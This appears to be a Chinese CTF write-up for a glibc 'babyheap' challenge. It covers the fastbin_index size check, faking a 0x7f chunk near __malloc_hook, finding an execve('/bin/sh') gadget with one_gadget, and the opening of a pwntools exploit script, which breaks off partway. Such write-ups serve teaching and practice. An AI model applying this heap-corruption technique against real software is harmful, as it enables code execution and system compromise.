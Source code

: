 ```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```
咱们填充`0x71`是为了下面`alloc(0x60)`时，不会崩掉.
下面给出`fastbin_index代码`:
```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
  相当于 (chunksize >> 4) - 2
```
**3. 为什么不选择`malloc_hook`作爲第二次`Alloc`返回的地址呢?**
> 有下面内容可知, `0x7f1017adfaed`的`chunksize`为`0x7f`, `fastbin_index`检查时不会出错。
而`malloc_hook`处`chunksize`为0, 马上就会崩掉喽。
```
0x7f1017adfaed <_IO_wide_data_0+301>:	0x1017ade260000000	0x000000000000007f
0x7f1017adfafd:	0x10177a0e20000000	0x10177a0a0000007f
0x7f1017adfb0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7f1017adfb1d:	0x0000000000000000	0x0000000000000000
```
**4. 如何获取`execve("/bin/sh")`的地址?**
> 工具 `one_gadget`

![sdf](./10.png)

### EXP

```python
from pwn import *
context(log_level='debug')

DEBUG = 1
if DEBUG:
    p = process('./babyheap')
    libc = ELF('./libc.so.6')
else:
    p = remote()

def alloc(size):
    p.recvuntil('Command:')
    p.sendline('1')
    p.recvuntil('Size:')
    p.sendline(str(size))

def fill(index, size, content):
    p.recvuntil('Command:')
```